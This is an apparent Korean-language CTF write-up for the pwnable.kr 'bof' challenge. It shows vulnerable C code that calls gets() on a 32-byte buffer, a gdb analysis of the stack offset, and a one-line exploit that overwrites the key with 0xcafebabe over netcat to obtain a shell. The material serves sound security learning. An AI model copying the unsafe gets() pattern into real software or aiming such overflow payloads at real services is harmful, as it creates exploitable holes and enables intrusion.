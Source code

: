 ```yaml
---
layout: post
title: "[pwnable.kr] bof 풀이"
date: 2018-06-08 02:44
categories: "[Pwn]pwnable.kr"
tags: #UnKN0wn
---
```

>## bof - [5pt]
### Nana told me that buffer overflow is one of the most common software vulnerability.
### Is that true?<br /><br />
### Download : http://pwnable.kr/bin/bof
### Download : http://pwnable.kr/bin/bof.c
### Running at : nc pwnable.kr 9000
  
  
---
 
문제 이름을 보아하니 이 문제는 Buffer Overflow를 사용하는 문제인 것 같네요. BOF에 대한 개념은 추후에 작성할께여  

일단 두 파일을 다운받아서 분석해 봅시다

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key)
{
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe)
	{
		system("/bin/sh");
	}
	else
	{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[])
{
	func(0xdeadbeef);
	return 0;
}
```
코드 자체에서 힌트를 줘버리네요
  
gets 함수가 받을 문제 수를 제한하지 않고 문자를 받아들여서 overflow가 일어나요  
오버플로우를 이용해 key 값을 0xcafebabe 로 바꿔주면 쉘을 딸 수 있을 것 같아요

이 부분을 디버거로 분석 가즈아~~~~

![bof_gdb_func](/pic/pwnable_kr/bof/bof_gdb_func.png)

func 함수를 어셈블리어로 보면 다음과 같아요  
여기서 문자를 받아서 들어가는 곳을 찾기위해서는 gets 함수의 인자를 봐야겠죠?  

<func+29> 부분에서 [ebp-0x2c] 부분의 주소를 eax에 넣어요  
<func+32> 에서 gets의 인자는 eax가 가지고 있는 주소가 되네요  
우리가 직접 넣는 값은 [ebp-0x2c]의 위치에 저장되는 것을 확인할 수 있어요!

따라서 이 부분을 이용해 [ebp- 0x2c] 0xcafebabe를 넣어주면 CLEAR!!!

# Exploit

![bof_ex_pic](/pic/pwnable_kr/bof/bof_ex_pic.png)

---
>### $ (python -c 'print "\x90"*52 + "\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000

![bof_ex_flag](/pic/pwnable_kr/bof/bof_ex_flag.png)

----
